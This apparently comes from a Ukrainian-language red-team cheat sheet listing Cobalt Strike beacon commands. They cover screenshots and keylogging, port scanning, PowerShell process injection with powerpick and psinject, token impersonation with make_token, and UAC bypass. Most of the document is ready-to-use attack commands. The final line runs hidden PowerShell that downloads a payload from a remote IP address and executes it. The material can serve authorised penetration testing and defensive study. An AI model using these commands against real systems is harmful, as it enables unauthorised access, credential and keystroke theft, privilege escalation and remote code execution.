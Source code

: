 # Скриншоти
printscreen    # Зробити один скриншот за допомогою методу PrintScr
screenshot     # Зробити один скриншот
screenwatch    # Зробити періодичні скриншоти робочого столу
## Перейдіть до View -> Screenshots, щоб їх побачити

# keylogger
keylogger [pid] [x86|x64]
## View > Keystrokes, щоб побачити натиснуті клавіші

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # Впровадити дію сканування портів у інший процес
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell
## Імпортувати модуль Powershell
powershell-import C:\path\to\PowerView.ps1
powershell-import /root/Tools/PowerSploit/Privesc/PowerUp.ps1
powershell <просто напишіть powershell cmd тут> # Це використовує найвищу підтримувану версію powershell (не oppsec)
powerpick <cmdlet> <args> # Це створює жертвенний процес, вказаний spawnto, і впроваджує UnmanagedPowerShell у нього для кращого opsec (не веде журнал)
powerpick Invoke-PrivescAudit | fl
psinject <pid> <arch> <commandlet> <arguments> # Це впроваджує UnmanagedPowerShell у вказаний процес для виконання cmdlet PowerShell.

# User impersonation
## Генерація токена з обліковими даними
make_token [DOMAIN\user] [password] #Створити токен для видачі прав користувача в мережі
ls \\computer_name\c$ # Спробуйте використовувати згенерований токен для доступу до C$ на комп'ютері
rev2self # Припинити використання токена, згенерованого за допомогою make_token
## Використання make_token генерує подію 4624: Обліковий запис успішно ввійшов. Ця подія дуже поширена в домені Windows, але може бути звужена шляхом фільтрації за типом входу. Як зазначалося вище, вона використовує LOGON32_LOGON_NEW_CREDENTIALS, що є типом 9.

# UAC Bypass
elevate svc-exe <listener>
elevate uac-token-duplication <listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
